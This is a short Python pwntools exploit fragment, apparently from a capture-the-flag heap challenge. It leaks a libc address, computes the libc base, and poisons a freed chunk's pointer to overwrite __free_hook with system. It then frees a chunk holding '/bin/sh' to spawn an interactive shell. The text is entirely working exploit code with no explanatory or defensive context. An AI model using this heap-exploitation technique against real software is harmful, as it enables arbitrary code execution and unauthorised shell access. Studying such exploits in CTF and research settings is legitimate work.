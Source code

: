 ```py
leak = leak + b"\x00\x00"
leak = u64(leak)
log.info(f"Libc leak : {hex(leak)}")
libc.address = leak - (0x007f99c0dd0be0 - 0x007f99c0be5000)
log.info(f"Libc base : {hex(libc.address)}")

free_hook = libc.sym["__free_hook"]
system = libc.sym["system"]
log.info(f"Free hook : {hex(free_hook)}")
log.info(f"System : {hex(system)}")

# Step 2 : Create a fake chunk
create("BBBB") # 3
create("CCCC") # 4
create("DDDD") # 5
delete(5)
delete(4)
edit(3, b"A"*32 + p64(0) + p64(0x31) + p64(free_hook))
create(p64(libc.sym["system"])) # 6
create(p64(libc.sym["system"])) # 7
create("/bin/sh") # 8
delete(8)

p.interactive()
```
